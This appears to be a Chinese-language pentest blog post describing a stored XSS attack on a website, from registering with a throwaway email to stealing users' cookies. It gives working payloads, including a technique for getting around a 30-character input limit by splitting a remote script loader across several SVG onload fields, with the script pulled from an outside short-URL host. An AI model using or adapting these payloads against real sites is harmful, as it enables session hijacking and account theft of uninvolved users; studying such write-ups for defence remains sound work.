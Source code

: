 +++
date = "2016-07-17T23:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS实例"
topics = ["Pentest"]

+++

首先感谢凯神的指导

### 0x00 注册账号
先得到一个临时邮箱，然后注册账号
![65](/img/post/xss_example_get_temporary_email.png)

![35](/img/post/xss_example_register.png)

### 0x01 找输入输出点
![40](/img/post/xss_example_add_topic.png)

![80](/img/post/xss_example_input_output_point.png)

### 0x02 尝试构造payload
payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
![40](/img/post/xss_example_payload_test.png)
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
![50](/img/post/xss_example_find_loadjs.png)

* 构造payload
![45](/img/post/xss_example_short_url.png)

```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
![70](/img/post/xss_example_get_cookie.png)
